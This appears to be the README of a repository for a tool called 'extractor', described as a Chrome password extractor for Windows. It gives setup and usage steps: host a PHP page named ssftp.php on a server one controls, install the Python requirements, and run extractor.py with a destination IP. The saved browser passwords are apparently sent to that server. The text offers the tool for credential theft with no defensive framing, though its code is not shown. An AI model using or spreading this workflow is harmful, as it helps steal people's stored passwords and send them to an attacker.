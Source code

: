# extractor
Chrome password extractor for windows

First, set up a php page on a web server you control named ssftp.php
After installing necessary modules with and chmod'ing it with `pip install -r requirements.txt && chmod +x extractor.py`, run with
`./extractor.py destination_ip`
